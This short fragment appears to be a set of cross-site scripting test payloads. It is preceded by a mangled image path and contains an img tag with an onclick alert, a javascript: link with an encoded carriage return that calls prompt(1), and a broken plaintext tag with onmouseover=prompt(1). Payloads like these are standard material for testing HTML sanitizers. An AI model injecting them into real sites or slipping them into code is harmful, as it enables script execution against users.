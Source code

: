 //<img type/onclick/alert() src="../../../../r89shi/r89shi.github.io/blob/master/140.gif?raw=true">

<a href="javascript:&#13; javascript:prompt(1)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1)
